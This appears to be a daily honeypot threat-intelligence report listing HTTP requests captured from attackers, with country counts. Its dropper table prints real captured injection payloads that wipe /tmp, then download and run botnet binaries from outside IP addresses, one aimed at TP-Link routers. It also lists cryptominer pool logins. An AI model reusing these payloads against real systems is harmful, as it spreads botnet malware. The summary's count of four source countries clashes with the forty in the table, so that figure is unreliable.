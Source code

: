 ```yaml
---
title: "Report: 2025-05-15 "
date: 2025-05-15
desciption: "Report: 2025-05-15" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-15 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 13 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1169 requests were recorded during the day, originating from 4 different countries, with a peak of 211 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| US               | Dubai              |
| PT               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                             |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 163.142.101.240 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.135.194.174/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                         |
| 141.98.11.137   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1 |
| 85.185.13.76    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.135.194.174/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                         |
| 152.0.28.63     | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.135.194.174/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                         |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 158 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x224ABPhRUtt95XoACQPdJ4k5Ugp4Z8FEuYkEFSVchqoBMReRPvQWQCtLX4fGMww6TEJtDefUrowxB3tjFNsun8qgejUWPdPKR\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 192 |                     1 | POST /api/user/binLookup?time=1747278853145799409 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 204 |                     1 | GET /Crm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 205 |                     1 | GET /Media HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 206 |                     1 | GET /Server HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 207 |                     1 | GET /Staging HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 210 |                     1 | GET /App HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 211 |                     1 | GET /Vendor HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 226 |                     1 | GET /config/index?time=1747278801226420534 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 227 |                     1 | GET /api/bin/440393?time=1747278852117857625 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 228 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x224AosXe5cigwfojMo7reEvxNXqkzGsvpXciqd6auk2B468gQUTFk6fDZ3mivf37r2iRdzUtchvWXd5T6G25ZZXK9YU4MTmHn\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 229 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x2261ea3ea5eeb08d6e85660cf1a2d78845eef81d\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 287 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x63e30fb0c44a9d51dfa44ae05a7fb73ecb15ab00\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   211 | US                 |
|  1 |                   150 | GB                 |
|  2 |                   120 | BG                 |
|  3 |                    84 | PL                 |
|  4 |                    65 | SG                 |
|  5 |                    55 | KR                 |
|  6 |                    53 | NL                 |
|  7 |                    51 | VN                 |
|  8 |                    48 | CN                 |
|  9 |                    45 | PT                 |
| 10 |                    38 | ES                 |
| 11 |                    38 | SC                 |
| 12 |                    37 | DE                 |
| 13 |                    35 | CA                 |
| 14 |                    19 | HK                 |
| 15 |                    17 | FR                 |
| 16 |                    14 | IN                 |
| 17 |                    13 | AZ                 |
| 18 |                     9 | IL                 |
| 19 |                     8 | GH                 |
| 20 |                     8 | RU                 |
| 21 |                     7 | LT                 |
| 22 |                     6 | MN                 |
| 23 |                     6 | BE                 |
| 24 |                     5 | UA                 |
| 25 |                     4 | EE                 |
| 26 |                     3 | JP                 |
| 27 |                     3 | AR                 |
| 28 |                     2 | PY                 |
| 29 |                     2 | MD                 |
| 30 |                     2 | BR                 |
| 31 |                     2 | KW                 |
| 32 |                     2 | IR                 |
| 33 |                     1 | SY                 |
| 34 |                     1 | MC                 |
| 35 |                     1 | ID                 |
| 36 |                     1 | IT                 |
| 37 |                     1 | AO                 |
| 38 |                     1 | DO                 |
| 39 |                     1 | AT                 |
